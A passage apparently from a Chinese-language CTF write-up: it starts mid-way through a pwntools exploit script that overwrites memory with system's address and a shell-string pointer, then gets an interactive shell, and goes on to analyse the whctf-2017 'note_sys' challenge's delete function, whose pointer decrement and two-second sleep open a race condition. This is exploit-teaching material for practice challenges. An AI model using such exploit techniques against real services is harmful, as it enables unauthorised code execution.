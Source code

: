 ```python
	rsendlineafter("new number:", str(system_addr[i]))

sh_addr = [0x87, 0x89, 0x04, 0x08]
offset += 8
for i in range(4):
	rsendlineafter("5. exit", "3")
	rsendlineafter("change:", str(offset+i))
	rsendlineafter("new number:", str(sh_addr[i]))

rsendlineafter("5. exit", "5")
rinteractive()

```



# whctf-2017-note_sys

题目很良心给了源码，省了一点时间

直接源码分析了

dele函数

这个函数存在2个问题第一个note_to_write --，这里是指针在--。那么就意味着我我free一次他就减一次，64位，减一次相当于地址减去8

问题2 usleep(2000000);这个是纯正闲的没事干。。。。，题目是多线程的题目，在这里dele之前如果sleep了这条进程是休眠了2秒

但是在2秒内，我还可以进行别的操作。

```c
void *delete_func(void *arg)
{
	char **note_to_delete = note_to_write;
	note_to_write --;
	int tmp = count;
	tmp -= 1;
	usleep(2000000);
	if(count > 0)
	{
		free(*note_to_delete);
		count = tmp;
		printf("delete successfully!\n");
	}
	else
	{
		printf("too less notes!!\n");
		note_to_write ++;
		return 0;
	}
	return 0;
}
```
